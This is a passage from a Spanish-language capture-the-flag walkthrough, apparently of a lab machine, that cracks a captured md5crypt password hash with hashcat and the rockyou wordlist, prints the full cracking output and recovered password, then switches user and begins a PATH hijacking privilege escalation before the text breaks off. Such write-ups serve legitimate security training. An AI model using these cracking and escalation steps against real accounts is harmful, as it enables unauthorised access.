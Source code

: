 
Acción: para romper la contraseña con **Hashcat**, guardamos el hash en un archivo, y usamos la herramienta [Hashcat](../../../Herramientas/Fuerza%20Bruta/Hashcat.md) junto al diccionario `rockyou`

```Shell
echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > hash
```

Acción: esperamos a que concluya ya que puede tardar. Usando la tecla `s` y dándole a `enter` podemos ver el estado de la fuerza bruta

```bash
sudo hashcat hash /usr/share/wordlists/rockyou.txt
```

Resultado: cuando acabe o encuentre el resultado válido se verá así

```HTML
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Mon Jun 16 16:50:40 2025 (6 mins, 29 secs)
Time.Estimated...: Mon Jun 16 16:57:09 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    15908 H/s (7.53ms) @ Accel:64 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7413504/14344385 (51.68%)
Rejected.........: 0/7413504 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: ilovecody98 -> ilovecj9/21
Hardware.Mon.#1..: Util: 88%

Started: Mon Jun 16 16:50:26 2025
Stopped: Mon Jun 16 16:57:11 2025
```

Explicación: ahora podemos probar la contraseña encontrada `ilovecody112235!` en el usuario con `su m4lwhere`
 
## [PATH Hijacking](../../../Técnicas/Escalada%20de%20privilegios) para usuario root

Acción: como usuario `m4lwhere`

```Shell
sudo -l
```

Resultado:
